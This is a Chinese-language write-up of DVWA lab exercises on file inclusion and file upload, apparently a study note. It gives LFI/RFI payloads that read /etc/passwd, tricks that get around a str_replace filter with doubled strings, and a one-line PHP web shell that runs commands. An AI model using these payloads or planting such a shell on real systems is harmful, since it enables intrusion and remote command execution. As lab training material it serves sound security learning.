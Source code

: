 
# 文件包含
## easy模式
某些Web应用程序允许用户指定直接用于文件流的输入，或允许用户将文件上载到服务器。稍后，Web应用程序访问Web应用程序上下文中的用户提供的输入。通过这样做，Web应用程序允许潜在的恶意文件执行。
如果选择要包含的文件在目标计算机上是本地的，则称为“本地文件包含（LFI）。但是文件也可以包含在其他计算机上，然后攻击是”远程文件包含（RFI）。
当RFI不是一种选择时。使用LFI的另一个漏洞（例如文件上传和目录遍历）通常可以达到同样的效果。
注意，术语“文件包含”与“任意文件访问”或“文件公开”不同。
只使用文件包含来阅读'../hackable/flags/fi.php'中的所有五个着名引号。
```
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?>
```

文件包含漏洞的一般特征如下：
```
?page=a.php

?home=a.html

?file=content
```
几种经典的测试方法：
```
?file=../../../../../etc/passwdd
?page=file:///etc/passwd
?home=main.cgi
?page=http://www.a.com/1.php
=http://1.1.1.1/../../../../dir/file.txt
（通过多个../可以让目录回到根目录中然后再进入目标目录）
```

## medium模式
增加对绝对路径http和相对路径的检查
```
// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );
```
但依然可以使用?page=file:///etc/passwd
以及重复字符过滤方法,构造url
1. 构造url为   httphttp://  --> http
2. 构造url为   httphttp://://  -->http://
3. 构造url为   ..././   -->  ../

# 文件上传
## easy模式
> 上传的文件对Web应用程序构成重大风险。许多攻击的第一步是将一些代码提供给系统进行攻击。然后攻击者只需要找到一种方法来执行代码。使用文件上传有助于攻击者完成第一步。
> 不受限制的文件上载的后果可能会有所不同，包括完整的系统接管，过载的文件系统，向后端系统转发攻击以及简单的污损。这取决于应用程序对上传文件的作用，包括存储位置。
> 由于此文件上载漏洞，请在目标系统上执行您选择的任何PHP函数（例如phpinfo（）或system（））。
>
一句话木马1.php文件：
```
<?php
echo shell_exec($_GET['cmd']);
?>
```

